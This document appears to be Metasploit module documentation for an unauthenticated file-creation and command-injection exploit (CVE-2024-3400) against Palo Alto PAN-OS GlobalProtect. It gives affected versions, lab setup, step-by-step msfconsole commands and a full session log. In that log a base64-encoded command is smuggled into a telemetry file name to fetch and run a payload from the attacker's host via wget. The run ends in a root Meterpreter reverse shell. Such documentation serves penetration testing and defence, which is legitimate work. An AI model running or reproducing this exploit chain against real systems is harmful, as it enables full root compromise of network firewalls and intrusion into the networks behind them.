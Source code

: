 ## Vulnerable Application
This module exploits two vulnerabilities in Palo Alto Networks PAN-OS that
allow an unauthenticated attacker to create arbitrarily named files and execute
shell commands. Configuration requirements are PAN-OS with GlobalProtect Gateway or
GlobalProtect Portal enabled and telemetry collection on (default). Affected versions
include < 11.1.0-h3, < 11.1.1-h1, < 11.1.2-h3, < 11.0.2-h4, < 11.0.3-h10, < 11.0.4-h1,
< 10.2.5-h6, < 10.2.6-h3, < 10.2.8-h3, and < 10.2.9-h1. Payloads may take up to
one hour to execute, depending on how often the telemetry service is set to run.

For a technical analysis of the vulnerability, read our [Rapid7 Analysis](https://attackerkb.com/topics/SSTk336Tmf/cve-2024-3400/rapid7-analysis).

## Testing
Boot a vulnerable PAN-OS VM or device, then authenticate to the management web service with default credentials. From the
web dashboard, configure a GlobalProtect [Portal](https://docs.paloaltonetworks.com/globalprotect/10-1/globalprotect-admin/globalprotect-portals/set-up-access-to-the-globalprotect-portal)
and/or [Gateway](https://docs.paloaltonetworks.com/globalprotect/10-1/globalprotect-admin/globalprotect-gateways/configure-a-globalprotect-gateway).
With either or both started, the `gpsvc` service will begin serving an HTTPS service on port 443 for the second
network interface. Confirm that the web service presents a Palo Alto Networks login page when viewed. This web application
is the target of the exploit, and the '/global-protect/login.esp' page should be accessible.

The exploit has been tested against PAN-OS 10.2.9, and it should also be effective against other similarly-configured 10.2, 11.0,
and 11.1 versions.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/panos_telemetry_cmd_exec`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set payload cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
6. `check`
7. `exploit`

## Scenarios

### Linux Command

Note: Ensure the target is vulnerable to unauthenticated file creation with the `check` command.

Note: Since it can take up to one hour to establish code execution, the listener should be left running for that period.

Note: In the standard PAN-OS configuration, the payload is delivered to the GlobalProtect interface IP, but the shell will return via a different PAN-OS management interface IP. 

```
msf6 > use exploit/linux/http/panos_telemetry_cmd_exec
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > show options

Module options (exploit/linux/http/panos_telemetry_cmd_exec):

   Name       Current Setting            Required  Description
   ----       ---------------            --------  -----------
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443                        yes       The target port (TCP)
   SSL        true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /global-protect/login.esp  yes       An existing web application endpoint
   VHOST                                 no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      EkcxbboZMyD      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/panos_telemetry_cmd_exec) > set RHOSTS 192.168.50.226
RHOSTS => 192.168.50.226
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > set LHOST 192.168.50.25
LHOST => 192.168.50.25
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > set LPORT 8585
LPORT => 8585
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > check
[+] 192.168.50.226:443 - The target is vulnerable. Arbitrary file write succeeded: /var/appweb/sslvpndocs/global-protect/portal/fonts/glyphicons-ipteqmbl-regular.woff2 NOTE: This file will not be deleted
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.50.25:8585 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Arbitrary file write succeeded: /var/appweb/sslvpndocs/global-protect/portal/fonts/glyphicons-ikxrpbmq-regular.woff2 NOTE: This file will not be deleted
[*] Depending on the PAN-OS version, it may take the telemetry service up to one hour to execute the payload
[*] Though exploitation of the arbitrary file creation vulnerability succeeded, command injection will fail if the default telemetry service has been disabled
[*] Meterpreter session 1 opened (192.168.50.25:8585 -> 192.168.50.216:48310) at 2024-04-18 14:53:09 -0500
[!] This exploit may require manual cleanup of '/opt/panlogs/tmp/device_telemetry/minute/lyne`echo${IFS}-n${IFS}d2dldCAtcU8gL3Zhci90bXAvdWdWZlhXUnhWIGh0dHA6Ly8xOTIuMTY4LjUwLjI1OjgwODAvcUpPXzJ2MUFPVkRIc2hsVVIyRHVzQTsgY2htb2QgK3ggL3Zhci90bXAvdWdWZlhXUnhWOyAvdmFyL3RtcC91Z1ZmWFdSeFYgJg==|base64${IFS}-d|bash${IFS}-`' on the target

meterpreter > getuid 
Server username: root
meterpreter > sysinfo 
Computer     : 192.168.50.216
OS           : CentOS 8.3.2011 (Linux 4.18.0-240.1.1.20.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

